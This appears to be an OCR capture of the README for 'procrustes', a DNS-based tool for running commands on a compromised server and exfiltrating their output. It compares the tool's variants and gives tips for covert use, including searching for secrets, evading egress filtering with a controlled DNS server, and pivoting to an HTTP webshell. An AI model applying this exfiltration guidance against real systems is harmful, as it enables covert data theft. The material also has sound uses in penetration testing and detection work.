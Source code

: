 ---------------------------------------


|                       | procroustes_chunked                | procroustes_full  |  procroustes_full_staged  |
| -------------         |:-------------:               |:-----:         |:-----:         |
| payload size overhead (bash/powershell)  | 150\*NLABELS/500\*NLABELS (+CMD_LEN)          | 300/800 (+CMD_LEN)       |   150/400[1]  |
| dispatcher calls #     | #output/(LABEL_SIZE*NLABELS)[2] |   1          |                1    |
| speed (bash/powershell)                | ✔/✔                         |  ✔/✔         | ✓/✓[3]|
| configuration difficulty                | easy                         |  easy+         | medium|

[1] For the staged version, the command is downloaded through DNS, so the listed size is the total payload size as well. 

[2] On procroustes_chunked, dispatcher is called multiple times and so as the provided command that is supposed to executed on the server (until all its output is exfiltrated). This behavior is not ideal in case the delivery of commands to the server (i.e. by calling the dispatcher) is time/resource intensive. 

It may also cause problems in case the command we are executing on the server is not idempotent (functionality or output-wise, e.g. "rm file;ls") or is time/resource intensive (e.g. find / -name secret). A workaround for this case is to first store the command output to a file (e.g. /tmp/file) and then use the script to read that file.

[3] In the staged version we have the overhead of the time required to get the actual payload over DNS. It should be noted that the script makes use of A records to get the actual payload. Even though this allows our traffic to blend in better with the regular traffic of the target environment, it offers limited channel capacity (e.g. 4 bytes per request). We could make use of other record types like TXT and minimize the stage download time (close to zero) and the stager size.

### Tips

 - You probably want to use this script as little as possible, try to transition to a higher bandwidth channel the soonest possible (e.g. HTTP-webshell)
 - In case long text output is expected, you can try compressing it first to speed up the exfil process, e.g. ./procrustes_full.sh ... -o >(setsid gunzip) -- 'ls -lhR / | gzip'
 - Another possibility for big/binary files is to copy them to a path which is accessible for example through HTTP
 - For increased exfil bandwidth in procrustes_full, run the dns_server on your name server. That way, we avoid waiting for the underlying DNS_TRIGGER to timeout before moving on to a new chunk.
 - Ideally, you would have a domain (-h option) with an NS record pointing to a server you control (server where we run tcpdump). Nevertheless, in case the target is allowed to initiate connections to arbitrary DNS servers, this can be avoided by having the DNS trigger explicitly set to use our DNS server (e.g. dig @your_server whatev.er)

### Credits
* [Collabfiltrator](https://github.com/0xC01DF00D/Collabfiltrator) - idea of chunking the data on the server. It also performs similar functionalities with this script, so check it out.
* [DNSlivery](https://github.com/no0be/DNSlivery) - modified version of DNSlivery is used as the DNS server